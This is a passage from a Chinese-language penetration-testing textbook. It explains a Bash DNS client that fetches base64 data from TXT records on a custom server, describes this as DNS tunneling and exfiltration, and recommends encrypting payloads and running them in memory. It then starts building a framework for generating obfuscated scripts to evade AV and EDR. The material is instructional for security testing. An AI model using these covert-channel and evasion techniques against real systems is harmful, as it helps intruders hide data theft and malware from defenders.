 图 14.2 – 显示了 DNS 客户端的输出

重要提示

你需要自己编辑服务器端和客户端代码，修改以发送适合渗透测试操作的有效载荷。这只是一个框架。你可以在传输数据之前对其进行编码或加密，然后在客户端进行解码或解密，并完全在内存中运行代码以避免写入磁盘。

以下是 **retrieve_data** 函数代码的解释：

+   **local key="$1"** ：这一行声明了一个本地变量 **key**，并将其赋值为传递给函数的第一个参数的值。

+   **echo "Sending query for: $key.get.$DOMAIN to $SERVER_IP"** ：这一行打印出发送的查询内容。

+   **local result=$(dig @$SERVER_IP +short TXT "$key.get.$DOMAIN")** ：这是函数的核心，使用**dig**命令执行 DNS 查询。让我们分解一下：

    +   **dig** ：这是一个 DNS 查询工具。

    +   **@$SERVER_IP** ：这个变量指定了要查询的 DNS 服务器（你自定义的服务器）。

    +   **+short** ：这告诉**dig**给出简洁的答案。对于**TXT**记录，它只返回文本数据。

    +   **TXT** ：这指定我们正在查找**TXT**记录。

    +   **"$key.get.$DOMAIN"** ：这是我们查询的完整域名，包含了**key**变量、**get**字眼和**DOMAIN**变量。

    +   整个命令被包裹在**$()**中，这是命令替换。它运行命令并返回输出，然后将其分配给**result**变量。

+   **if [ -n "$result" ]; then** ：这检查**result**变量是否非空。

+   在**if**语句块内部，我们有以下内容：

    +   **local decoded=$(echo $result | tr -d '"' | base64 -d 2>/dev/null)** ：这一行处理结果：

        +   **echo $result** ：输出结果

        +   **tr -d '"'** ：移除任何引号字符

        +   **base64 -d** ：解码 Base64 编码的字符串

        +   **2>/dev/null** ：将任何错误信息重定向到**/dev/null**（丢弃它们）

+   **if [ $? -eq 0 ]; then** ：这检查之前的命令（Base64 解码）是否成功：

    +   如果成功，它将打印解码后的数据。如果失败，它将打印错误信息和原始数据。

    +   如果**result**为空，它会打印**No data found** **for '{$key}'**。

    +   最后，输出一个分隔符行。

**dig** 命令在这里非常重要。它使用 DNS 传输数据，查询一个包含我们关心的密钥的**TXT**记录的域名。服务器会在**TXT**记录中返回 Base64 编码的数据，客户端随后进行解码。

这种使用 DNS 进行数据传输的方法有时被称为**DNS 隧道**或**DNS 外泄**。这是利用一种通常被防火墙允许的协议（DNS）来传输数据的创意方式，即使其他协议被阻止时，仍然可以通过该协议进行数据传输。

在探索了多种规避 AV 或 EDR 检测的混淆载荷方法之后，让我们继续下一部分，探讨如何使用 Bash 自动化脚本混淆。

# 自动化 Bash 中的规避脚本生成

为了自动化生成混淆的 Bash 脚本，我们将创建一个简单的框架，结合多种规避技术。这个框架将帮助我们快速生成更有可能避开 AV 和 EDR 系统检测的脚本。

这是我们框架的基本结构。以下代码可以在本章的 GitHub 仓库中找到，文件名为**ch14_auto_obfuscate_1.sh**。我将把代码分解成小部分并进行解释：

```
 #!/usr/bin/env bash
# Function to encode a string using base64
encode_base64() {
    echo "$1" | base64
}
```

